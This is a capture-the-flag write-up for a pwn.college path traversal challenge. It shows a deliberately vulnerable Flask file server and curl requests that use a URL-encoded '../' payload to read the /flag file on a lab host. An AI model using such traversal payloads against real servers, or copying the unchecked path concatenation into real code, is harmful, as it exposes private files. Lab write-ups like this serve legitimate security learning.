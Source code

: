 #web  #SQLi #AuthnenticationBypass #CMDi  #pwncollege

**Path Traversal 1:**

Basic webserver in python:
```python
hacker@web-security~path-traversal-1:~/WebSecurity$ cat /challenge/server
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


@app.route("/files", methods=["GET"])
@app.route("/files/<path:path>", methods=["GET"])
def challenge(path="index.html"):
    requested_path = app.root_path + "/files/" + path
    print(f"DEBUG: {requested_path=}")
    try:
        return open(requested_path).read()
    except PermissionError:
        flask.abort(403, requested_path)
    except FileNotFoundError:
        flask.abort(404, f"No {requested_path} from directory {os.getcwd()}")
    except Exception as e:
        flask.abort(500, requested_path + ":" + str(e))


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```



Challenge host a server: /challenge/server. We want to make the server send us the /flag file. If we send a basic request to the server:
```
curl -v http://challenge.localhost/files
```
It responds with a 200 status code, and the index.html file. So we have to go 2 folder layers down to come to root folder, so we try:
```
curl -v http://challenge.localhost/files/../../flag
```
This do not work either. Might be because the server is set to block path traversal.

We try to url encode the path traversal:
```
curl -v http://challenge.localhost/files%2F..%2F..%2Fflag
```
And it gives us the flag. 

